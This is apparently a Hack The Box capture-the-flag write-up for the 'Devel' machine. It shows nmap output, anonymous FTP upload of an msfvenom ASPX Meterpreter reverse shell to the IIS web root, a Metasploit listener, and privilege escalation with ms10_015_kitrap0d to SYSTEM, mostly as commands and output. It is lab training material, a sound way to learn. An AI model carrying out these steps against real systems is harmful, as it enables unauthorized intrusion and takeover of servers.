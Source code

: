 <center><h1>Devel</h1></center>
<br>
<center><h3>Summary</h3></center>
<br><br>
- Use an Anonymous FTP login with write permission to upload a shell
- Use <b>ms10_015_kitrap0d</b> to escalate priveleges to root
<br><br>
First thing is always an Nmap scan

```
# Nmap 7.70 scan initiated Thu May 30 12:00:56 2019 as: nmap -sV -sC -T4 -oN DevelNmap 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.043s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 30 12:01:12 2019 -- 1 IP address (1 host up) scanned in 16.12 seconds
```
Only two ports open but I do see that there is Anonymous login allowed on FTP.
```
# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp>
```
If we list the files inside the directory we see a few files. From the looks of them it seems to be the default files for an IIS installation.
```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
We can confirm this by navigating to <b>http://10.10.10.5</b>

<center><img src="/htb/devel/welcome.png"></center>
<br>
Now I know the files from the FTP can be directly accessed from the Web page. I decide to check if I have write privileges to the FTP server so I could upload a reverse shell. I test this by upload a test file
```
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
967 bytes sent in 0.00 secs (1016.5081 kB/s)
```
If I go back to the wepage and navigate to <b>test.txt</b> we see my file

<center><img src="/htb/devel/test.png"></center>
<br>
I am going to use msfvenom to create the payload for the reverse shell
```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2798 bytes
```
I put the shell onto the sytem using FTP
```
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2834 bytes sent in 0.00 secs (31.0657 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
09-23-19  03:42AM                 2834 shell.aspx
09-23-19  03:35AM                    9 test.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
Now we need to set up our listener. Metasploits's <b>exploit/multi/handler</b> will be used for this
```
msf5 exploit(multi/handler) > set lhost 10.10.14.21
lhost => 10.10.14.21
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.21:4444
```
Now in the web page, navigate to <b>http://10.10.10.5/shell.aspx</b>

<center><img src="/htb/devel/shell.png"></center>
<br>
Now if we check the listener we should have a meterpreter shell. Checking the user we will see that we have a low privilege shell
```
[*] Started reverse TCP handler on 10.10.14.21:4444
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.21:4444 -> 10.10.10.5:49157) at 2019-09-19 08:49:29 -0400

meterpreter > getuid
Server username: IIS APPPOOL\Web
```
Next step is to run the <b>local_exploit_suggester</b>
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 29 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
We get tons of suggestions but the one I am going to use is <b>ms10_015_kitrap0d</b>. The reason I chose this one is because I have used it before and know that it works

Now we background the current <b>meterpreter</b> session so we can load in the <b>ms10_015_kitrap0d</b> exploit.
```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 2
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
lhost => tun0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lport 5555
lport => 5555
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.21:5555
[*] Launching notepad to host the exploit...
[+] Process 2140 launched.
[*] Reflectively injecting the exploit DLL into 2140...
[*] Injecting exploit into 2140 ...
[*] Exploit injected. Injecting payload into 2140...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.21:5555 -> 10.10.10.5:49161) at 2019-09-19 09:10:29 -0400

meterpreter>
```
Now we have a new <b>meterpreter</b> shell and if we do <b>getuid</b> it will show that we are <b>NT AUTHORITY SYSTEM</b>
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Now we grab both flags. To do this type <b>shell</b> so we can get a windows shell.
```
meterpreter > shell
Process 3584 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```
The user flag is located in <b>C:\Users\babis\Desktop</b>
```
Directory of C:\Users\babis\Desktop

18/03/2017  02:14     <DIR>          .
18/03/2017  02:14     <DIR>          ..
18/03/2017  02:18                 32 user.txt.txt
              1 File(s)             32 bytes
              2 Dir(s)  24.452.411.392 bytes free
```
The root flag is located in <b>C:\Users\Administrator\Desktop</b>
```
Directory of C:\Users\Administrator\Desktop

18/03/2017  02:17     <DIR>          .
18/03/2017  02:17     <DIR>          ..
18/03/2017  02:17                 32 root.txt.txt
              1 File(s)             32 bytes
              2 Dir(s)  24.452.411.392 bytes free
```
<br><br><br>

